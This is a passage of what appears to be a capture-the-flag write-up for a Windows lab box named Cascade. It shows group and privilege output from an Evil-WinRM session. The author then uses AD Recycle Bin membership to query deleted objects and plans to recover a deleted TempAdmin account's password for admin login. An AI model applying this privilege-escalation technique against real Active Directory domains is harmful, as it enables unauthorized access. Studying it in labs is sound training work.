 ```bash
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

This one sticks out in particular.

```bash
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
```

So this means that we have privilege to recycle the deleted objects from the Ad Recycle bin.

I remembered the html file from earlier about the user TempAdmin and how their account was deleted so what if we could recover the deleted data for that user and login as admin as they both have the same password for the account.

We run the following command:

```bash
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -ldapFilter:"(msDS-LastKnownRDN=*)" -IncludeDeletedObjects


Deleted           : True                                                                                                                                                                               
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local                                                                                      
Name              : CASC-WS1                                                                                                                                                                           
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe                                                                                                                                           
ObjectClass       : computer                                                                                                                                                                           
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe                                                                                                                                               

Deleted           : True                                                                                                                                                                               
```